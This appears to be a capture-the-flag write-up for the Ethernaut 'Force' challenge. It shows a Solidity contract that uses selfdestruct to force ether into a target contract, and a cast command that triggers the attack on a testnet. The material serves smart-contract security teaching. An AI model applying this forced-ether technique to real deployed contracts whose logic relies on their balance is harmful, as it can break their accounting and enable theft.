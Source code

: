 ```yaml
---
title: "Force"
tags: ["selfdestruct"]
reference: https://ethernaut.openzeppelin.com/level/7
---
```


# Description

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

# Solution

1. deploy `ForceSendETH` contract

This function will recieve ether from msg.sender and them self destory itself and send all its ether balance to our victim address.

```
contract ForceSendETH {
    function pwn(address victim) external payable {
        selfdestruct(payable(victim));
    }
}
```

2. call `pwn()`

```
cast send 0x3563481bAaFF769260aD2df7195B46F1c450d694 "pwn(address)" 0xbE7B8679255c0531c346fcEa6EEF6C4a2222D8a1 --value 0.00000001ether --rpc-url $BASE_SEPOLIA_RPC --private-key
```

